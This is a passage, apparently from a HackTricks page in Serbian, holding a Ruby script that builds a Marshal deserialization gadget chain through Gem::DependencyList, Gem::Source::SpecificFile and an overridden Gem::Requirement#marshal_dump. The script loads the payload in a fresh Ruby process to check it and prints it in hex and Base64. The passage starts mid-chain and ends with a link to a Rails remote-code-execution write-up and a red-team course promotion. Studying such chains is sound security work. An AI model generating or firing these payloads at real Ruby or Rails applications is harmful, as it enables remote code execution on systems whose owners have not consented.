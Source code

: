 ```ruby

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
def marshal_dump
[$dependency_list]
end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
pipe.print payload
pipe.close_write
puts pipe.gets
puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

Drugi RCE lanac za iskorišćavanje Ruby On Rails-a: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
